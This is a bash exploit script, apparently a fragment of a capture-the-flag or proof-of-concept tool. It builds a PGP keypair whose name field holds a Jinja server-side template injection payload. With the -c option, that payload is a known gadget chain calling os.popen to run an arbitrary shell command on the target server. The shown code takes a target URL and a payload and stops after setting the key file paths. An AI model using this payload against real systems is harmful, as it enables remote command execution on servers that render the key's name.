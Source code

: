 ```bash
# prints only if invoked with -d
function log() {
    [[ -v DEBUG ]] \
        && echo -e "\e[34m[+]\e[0m $1" 
}


[[ $# -lt 4 ]] \
    && usage \
    && exit 1

while getopts ':u:cp:d' OPTION; do
    case "${OPTION}" in
        u)
            TARGET=${OPTARG}
            ;;
        p)
            PAYLOAD="${OPTARG}"
            ;;
        c)
            COMMAND=true
            ;;
        d)
            DEBUG=true
            ;;
        ?)
            usage
            exit 1
            ;;
    esac
done

log "num args: $#" 
log "target url: ${TARGET}"
log "payload: ${PAYLOAD}"
[[ -v COMMAND ]] && log "command: ${COMMAND}"
log "debug: ${DEBUG}"


# send pgp stuff with malicious [jinja|python] payload

# generate malicious pgp keypair

KEYGEN="${PWD}/pgp-pysuite/keygen.py"
EMAIL="someguy@gmail.com"

# if -c is unset, generate jinja payload
if [[ ! -v COMMAND ]]; then
    log "generating new keypair with jinja"
    python3 ${KEYGEN} -p 'password' -n "{{ ${PAYLOAD} }}" -e "${EMAIL}" >/dev/null # suppress pgp-pysuite output
# otherwise generate shell command payload
else
    log "generating new keypair with shellcode"
    python3 ${KEYGEN} \
        -p 'password' \
        -n "{{request.application.__globals__.__builtins__.__import__('os').popen('${PAYLOAD}').read()}}" \
        -e "${EMAIL}" >/dev/null # suppress pgp-pysuite output
fi

PUBKEY=${PWD}/keypgp_uwu.pub.asc
PRIVATEKEY=${PWD}/keypgp_uwu.key.asc
```